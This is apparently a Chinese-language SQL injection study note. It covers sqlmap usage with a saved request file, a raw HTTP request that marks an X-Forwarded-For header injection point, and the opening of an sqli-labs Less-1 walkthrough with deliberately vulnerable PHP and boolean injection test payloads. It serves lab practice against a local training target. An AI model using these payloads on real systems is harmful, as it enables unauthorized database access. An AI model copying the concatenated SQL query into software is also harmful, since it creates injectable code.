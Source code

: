 ```bash
python sqlmap.py -r sql.txt --dbms mysql --batch --dbs
```

注意注入点加上  *  号，以下是 `X-Forwarded-For` 头注入

```http
GET /sqqyw/ HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
X-Forwarded-For:1.1.1.1*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=763ujahtj2fg6b3ktsqvttf4t0
Connection: close
```



# sqli-lab

## Less-1

题目部分源码，是**GET字符型注入**

```php
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
......
echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
```

判断注入

```
?id=1' and 1=1 --+        返回正常  
?id=1' --+                返回正常 
?id=1' and 1=2 --+        返回不正常
?id=-1' --+               返回不正常
```
